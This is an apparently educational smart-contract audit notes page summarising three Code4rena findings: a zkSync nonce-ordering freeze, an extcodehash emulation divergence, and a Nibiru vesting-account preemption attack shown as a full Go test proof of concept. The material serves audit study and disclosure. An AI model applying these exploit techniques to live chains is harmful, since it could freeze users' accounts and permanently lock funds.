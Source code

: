 # ETAAcademy-Adudit: 4. Account

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>04. Account</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>EVM</th>
          <td>account</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Evta](https://twitter.com/pwhattie), looking forward to your joining

## 1. [Medium] Nonce ordering of EOA can be updated to "arbitary" through an L1 tx

### EOA nonce ordering manipulated via L1 transaction

- Summary: This vulnerability enables the manipulation of an Externally Owned Account (EOA)'s nonce ordering to an arbitrary state through an L1 priority transaction, leading to the permanent freezing of the user's account.
- Impact & Recommendation: Once the nonce ordering is updated to an arbitrary state, it becomes permanent, rendering the account unable to initiate any new transactions.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-10-zksync#m-06-nonce-ordering-of-eoa-can-be-updated-to-arbitrary-through-an-l1-tx) & [Report](https://code4rena.com/reports/2023-10-zksync)

  <details><summary>POC</summary>

  ```solidity

    function _validateTransaction(
        bytes32 _suggestedSignedHash,
        Transaction calldata _transaction
    ) internal returns (bytes4 magic) {
        // Note, that nonce holder can only be called with "isSystem" flag.
        SystemContractsCaller.systemCallWithPropagatedRevert(
            uint32(gasleft()),
            address(NONCE_HOLDER_SYSTEM_CONTRACT),
            0,
            abi.encodeCall(INonceHolder.incrementMinNonceIfEquals, (_transaction.nonce))
        );
    function incrementMinNonceIfEquals(uint256 _expectedNonce) external onlySystemCall {
        uint256 addressAsKey = uint256(uint160(msg.sender));
        uint256 oldRawNonce = rawNonces[addressAsKey];
        (, uint256 oldMinNonce) = _splitRawNonce(oldRawNonce);
        require(oldMinNonce == _expectedNonce, "Incorrect nonce");
        unchecked {
            rawNonces[addressAsKey] = oldRawNonce + 1;
        }
    }

     // Checks whether the nonce `nonce` have been already used for
        // account `from`. Reverts if the nonce has not been used properly.
        function ensureNonceUsage(from, nonce, shouldNonceBeUsed) {
            // INonceHolder.validateNonceUsage selector
            mstore(0, {{RIGHT_PADDED_VALIDATE_NONCE_USAGE_SELECTOR}})
            mstore(4, from)
            mstore(36, nonce)
            mstore(68, shouldNonceBeUsed)
            let success := call(
                gas(),
                NONCE_HOLDER_ADDR(),
                0,
                0,
                100,
                0,
                0
            )
            if iszero(success) {
                revertWithReason(
                    ACCOUNT_TX_VALIDATION_ERR_CODE(),
                    1
                )
            }
        }
    function validateNonceUsage(address _address, uint256 _key, bool _shouldBeUsed) external view {
        bool isUsed = isNonceUsed(_address, _key);
        if (isUsed && !_shouldBeUsed) {
            revert("Reusing the same nonce twice");
        } else if (!isUsed && _shouldBeUsed) {
            revert("The nonce was not set as used");
        }
    }
    function isNonceUsed(address _address, uint256 _nonce) public view returns (bool) {
        uint256 addressAsKey = uint256(uint160(_address));
        return (_nonce < getMinNonce(_address) || nonceValues[addressAsKey][_nonce] > 0);
    }

    function _execute(Transaction calldata _transaction) internal {
        address to = address(uint160(_transaction.to));
        uint128 value = Utils.safeCastToU128(_transaction.value);
        bytes calldata data = _transaction.data;
        uint32 gas = Utils.safeCastToU32(gasleft());
        // Note, that the deployment method from the deployer contract can only be called with a "systemCall" flag.
        bool isSystemCall;
        if (to == address(DEPLOYER_SYSTEM_CONTRACT) && data.length >= 4) {
            bytes4 selector = bytes4(data[:4]);
            // Check that called function is the deployment method,
            // the others deployer method is not supposed to be called from the default account.
            isSystemCall =
                selector == DEPLOYER_SYSTEM_CONTRACT.create.selector ||
                selector == DEPLOYER_SYSTEM_CONTRACT.create2.selector ||
                selector == DEPLOYER_SYSTEM_CONTRACT.createAccount.selector ||
                selector == DEPLOYER_SYSTEM_CONTRACT.create2Account.selector;
        }

            function msgValueSimulatorMimicCall(to, from, value, dataPtr) -> success {
                // Only calls to the deployer system contract are allowed to be system
                let isSystem := eq(to, CONTRACT_DEPLOYER_ADDR())
                success := mimicCallOnlyResult(
                    MSG_VALUE_SIMULATOR_ADDR(),
                    from,
                    dataPtr,
                    0,
                    1,
                    value,
                    to,
                    isSystem
                )
            }

    function updateNonceOrdering(AccountNonceOrdering _nonceOrdering) external onlySystemCall {
        AccountInfo memory currentInfo = accountInfo[msg.sender];
        require(
            _nonceOrdering == AccountNonceOrdering.Arbitrary &&
                currentInfo.nonceOrdering == AccountNonceOrdering.Sequential,
            "It is only possible to change from sequential to arbitrary ordering"
        );
        currentInfo.nonceOrdering = _nonceOrdering;
        _storeAccountInfo(msg.sender, currentInfo);
        emit AccountNonceOrderingUpdated(msg.sender, _nonceOrdering);
    }


  ```

  </details>

## 2. [Medium] Divergences in the Simulation of the extcodehash EVM Opcode

### `keccak256("")` v.s. `bytes32(0)`

- Summary: In the zkSync Era, adherence to EIP-161 criteria determines whether an account is considered "empty" `bytes32(0)`, with no code, zero nonce, and zero balance. However, regardless of the account's balance, zkSync returns bytes32(0) for extcodehash, only considering the nonce and code presence, which diverges from keccak256("") for such accounts with no code in EVM.
- Impact & Recommendation: It accurately emulates the extcodehash EVM opcode as specified by EIP-1051. To mitigate this issue, a recommended solution is provided to precisely simulate the extcodehash EVM opcode based on EIP-1052.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-10-zksync#m-19-divergences-in-the-simulation-of-the-extcodehash-evm-opcode) & [Report](https://code4rena.com/reports/2023-10-zksync)

  <details><summary>POC</summary>

  ```solidity

  function getCodeHash(uint256 _input) external view override returns (bytes32) {
        address account = address(uint160(_input));
        if (uint160(account) <= CURRENT_MAX_PRECOMPILE_ADDRESS && account.balance != 0) {
            return EMPTY_STRING_KECCAK;
        } else if (uint160(account) <= CURRENT_MAX_PRECOMPILE_ADDRESS && address(account).balance == 0) {
            return bytes32(0);
        }
        bytes32 codeHash = getRawCodeHash(account);
        if (codeHash == 0x00 && NONCE_HOLDER_SYSTEM_CONTRACT.getRawNonce(account) > 0) {
            codeHash = EMPTY_STRING_KECCAK;
        }
        else if (Utils.isContractConstructing(codeHash)) {
            codeHash = EMPTY_STRING_KECCAK;
        } else if (codeHash == 0x00 && NONCE_HOLDER_SYSTEM_CONTRACT.getRawNonce(account) == 0 && address(account).balance != 0) {
            codeHash = EMPTY_STRING_KECCAK;
        }
        return codeHash;
    }

  ```

  </details>

## 3. [High] Vesting account preemption attack preventing future contract deployment

### Vesting account

- Summary: The vulnerability allowed an attacker to preemptively mark a target address as a vesting account, blocking future contract deployments by preventing the creation of a `codeHash` and making the deployed contract permanently inaccessible. This could disrupt critical ecosystem contracts, such as those planned for LayerZero or Uniswap, and lock associated funds indefinitely. The attack exploited the deterministic nature of contract address generation, enabling an attacker to anticipate and block specific future deployments.
- Impact & Recommendation: The recommended fix was to disable the vesting account feature at the ante handler level. Nibiru confirmed the issue and mitigated it by disabling the built-in `auth/vesting` module functionality, resolving the vulnerability.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-11-nibiru#h-01-vesting-account-preemption-attack-preventing-future-contract-deployment) & [Report](https://code4rena.com/reports/2024-11-nibiru)

  <details><summary>POC</summary>

  ```go

    func (s *Suite) TestVestingAccountPreemptionAttack() {
        deps := evmtest.NewTestDeps()
        // Step-1: Set up the deterministic victim account
        privKeyE, _ := crypto.HexToECDSA("46e86cbf25a9aeb0630feebbb4ec22d6ee7acbdbde8b54d0382112c9b0cfe37c")
        privKey := &ethsecp256k1.PrivKey{
            Key: crypto.FromECDSA(privKeyE),
        }
        ethAddr := crypto.PubkeyToAddress(privKeyE.PublicKey)
        deps.Sender = evmtest.EthPrivKeyAcc{
            EthAddr:       ethAddr,
            NibiruAddr:    eth.EthAddrToNibiruAddr(ethAddr),
            PrivKey:       privKey,
            KeyringSigner: evmtest.NewSigner(privKey),
        }
        victim := deps.Sender
        fundedAmount := evm.NativeToWei(big.NewInt(100))
        fundedCoin := sdk.NewCoins(sdk.NewCoin("unibi", sdk.NewIntFromBigInt(fundedAmount)))
        s.Require().NoError(testapp.FundModuleAccount(deps.App.BankKeeper, deps.Ctx, authtypes.FeeCollectorName, fundedCoin))
        s.Require().NoError(testapp.FundAccount(deps.App.BankKeeper, deps.Ctx, victim.NibiruAddr, fundedCoin))
        // Step-2: Victim account deploys a Factory contract
        gasLimit := big.NewInt(3_000_000)
        initialFundAmt := int64(10)
        initialFundToFactory := evm.NativeToWei(big.NewInt(initialFundAmt))
        createArgs := evmtest.ArgsCreateContract{
            EthAcc:        victim,
            EthChainIDInt: deps.EvmKeeper.EthChainID(deps.Ctx),
            GasPrice:      big.NewInt(1),
            Nonce:         deps.StateDB().GetNonce(victim.EthAddr),
            GasLimit:      gasLimit,
            // Factory send 999 wei when deploy Child contract. See x/evm/embeds/contracts/Factory.sol
            Value: initialFundToFactory,
        }
        ethTxMsg, err := evmtest.DeployFactoryMsgEthereumTx(createArgs)
        s.Require().NoError(err)
        s.Require().NoError(ethTxMsg.ValidateBasic())
        s.Equal(ethTxMsg.GetGas(), gasLimit.Uint64())
        resp, err := deps.App.EvmKeeper.EthereumTx(sdk.WrapSDKContext(deps.Ctx), ethTxMsg)
        s.Require().NoError(
            err,
            "resp: %s\nblock header: %s",
            resp,
            deps.Ctx.BlockHeader().ProposerAddress,
        )
        s.Require().Empty(resp.VmError)
        // Check if the Factory contract is deployed
        factoryAddr := crypto.CreateAddress(gethcommon.HexToAddress(victim.EthAddr.String()), 0)
        factoryContractAcc := deps.App.EvmKeeper.GetAccount(deps.Ctx, factoryAddr)
        s.Require().NotNil(factoryContractAcc)
        s.Require().True(factoryContractAcc.IsContract())
        codeHash := crypto.Keccak256Hash(embeds.SmartContract_Factory.DeployedBytecode)
        s.Require().Equal(embeds.SmartContract_Factory.DeployedBytecode, deps.App.EvmKeeper.GetCode(deps.Ctx, codeHash))
        factoryBal := deps.App.BankKeeper.GetBalance(deps.Ctx, eth.EthAddrToNibiruAddr(factoryAddr), "unibi")
        s.Require().Equal(initialFundAmt, factoryBal.Amount.Int64())
        // Step-3: Attacker set expected Child contract address as vesting account
        attacker := evmtest.NewEthPrivAcc()
        err = testapp.FundAccount(
            deps.App.BankKeeper,
            deps.Ctx,
            attacker.NibiruAddr,
            sdk.NewCoins(sdk.NewInt64Coin("unibi", 100000000)),
        )
        // NOTE: factory does not create any child contract yet, so the expected child address is 1
        expectedChildAddr := crypto.CreateAddress(factoryAddr, 1)
        var msgServer vestingtypes.MsgServer
        msgServer = vesting.NewMsgServerImpl(deps.App.AccountKeeper, deps.App.BankKeeper)
        lockedCoin := sdk.NewInt64Coin("unibi", 100)
        lockResp, err := msgServer.CreatePermanentLockedAccount(deps.Ctx, vestingtypes.NewMsgCreatePermanentLockedAccount(
            attacker.NibiruAddr,
            eth.EthAddrToNibiruAddr(expectedChildAddr),
            sdk.Coins{lockedCoin},
        ))
        s.Require().NoError(err)
        s.Require().NotNil(lockResp)
        // Attacker successfully created a locked account with the expected child address
        // Step-4: Victim tries to deploy a child contract
        input, err := embeds.SmartContract_Factory.ABI.Pack("makeChild")
        s.Require().NoError(err)
        execArgs := evmtest.ArgsExecuteContract{
            EthAcc:          victim,
            EthChainIDInt:   deps.EvmKeeper.EthChainID(deps.Ctx),
            ContractAddress: &factoryAddr,
            Data:            input,
            GasPrice:        big.NewInt(1),
            Nonce:           deps.StateDB().GetNonce(victim.EthAddr),
            GasLimit:        gasLimit,
        }
        ethTxMsg, err = evmtest.ExecuteContractMsgEthereumTx(execArgs)
        s.Require().NoError(err)
        s.Require().NoError(ethTxMsg.ValidateBasic())
        s.Equal(ethTxMsg.GetGas(), gasLimit.Uint64())
        _, err = deps.App.EvmKeeper.EthereumTx(sdk.WrapSDKContext(deps.Ctx), ethTxMsg)
        s.Require().NoError(err)
        // PROOF OF IMPACTS
        // IMPACT-1(orphan contract): bytecode actually deployed but code hash is not set for the account because
        // the account's type is not EthAccountI, so it's not accessible.
        childAcc := deps.App.EvmKeeper.GetAccount(deps.Ctx, expectedChildAddr)
        s.Require().Equal(evm.EmptyCodeHash, childAcc.CodeHash)
        // IMPACT-2(storage waste): bytecode deployed but no code hash, so the storage is wasted.
        childCodeHash := crypto.Keccak256Hash(embeds.SmartContract_Child.DeployedBytecode)
        childCode := deps.App.EvmKeeper.GetCode(deps.Ctx, childCodeHash)
        s.T().Logf("storage waste: %d bytes", len(childCode))
        // IMPACT-3(locked fund): There are no way to access the locked fund because the account is not EthAccountI.
        acc := deps.App.AccountKeeper.GetAccount(deps.Ctx, eth.EthAddrToNibiruAddr(expectedChildAddr))
        _, ok := acc.(exported.VestingAccount)
        s.Require().True(ok)
        input, err = embeds.SmartContract_Child.ABI.Pack("withdraw")
        s.Require().NoError(err)
        // victim tries to withdraw the locked fund, but contract is orphan so no actual state transition happens
        execArgs = evmtest.ArgsExecuteContract{
            EthAcc:          victim,
            EthChainIDInt:   deps.EvmKeeper.EthChainID(deps.Ctx),
            ContractAddress: &expectedChildAddr,
            Data:            input,
            GasPrice:        big.NewInt(1),
            Nonce:           deps.StateDB().GetNonce(attacker.EthAddr),
            GasLimit:        gasLimit,
        }
        ethTxMsg, err = evmtest.ExecuteContractMsgEthereumTx(execArgs)
        s.Require().NoError(err)
        // No actual state transition happens.
        // code is nil, so just return without executing the contract
        deps.App.EvmKeeper.EthereumTx(sdk.WrapSDKContext(deps.Ctx), ethTxMsg)
    }

  ```

  </details>

